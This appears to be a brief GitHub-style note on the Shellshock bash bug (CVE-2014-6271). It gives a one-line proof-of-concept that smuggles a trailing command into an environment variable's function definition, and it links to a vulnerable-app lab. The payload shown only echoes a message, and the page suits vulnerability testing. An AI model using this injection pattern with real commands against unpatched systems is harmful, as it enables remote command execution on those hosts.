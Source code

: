 # CVE-2014-6271

**shellshock**

```bash
env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"
```

[VulApps/b/bash/shellshock1_CVE-2014-6271 at master · Medicean/VulApps · GitHub](https://github.com/Medicean/VulApps/tree/master/b/bash/shellshock1_CVE-2014-6271)
